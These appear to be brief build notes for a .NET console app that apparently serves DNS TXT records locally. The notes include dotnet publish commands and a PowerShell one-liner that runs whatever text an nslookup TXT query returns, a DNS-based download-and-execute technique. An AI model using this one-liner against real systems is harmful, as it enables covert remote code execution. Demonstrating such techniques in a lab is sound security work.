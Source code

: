 - Install-Package ARSoft.Tools.Net (NuGet)
- Execute: "powershell . (nslookup -q=txt example.com 127.0.0.1)[-1]"
  The locahohost IP has to be given to differentiate between the "real" domain and the locally running one.

-- Build an executable from the Developer Console within Visual studio

https://learn.microsoft.com/en-us/dotnet/core/deploying/single-file/overview?tabs=cli
- Build:
  <code>
  C:\Users\Noone\Desktop\app\ConsoleApp2>dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:PublishDir=.\publish --force
  </code>
- Build standalone:
  <code>
  dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true -p:PublishReadyToRun=true -p:PublishTrimmed=true -p:IncludeNativeLibrariesForSelfExtract=true -p:PublishDir=.\publish --force
  </code>
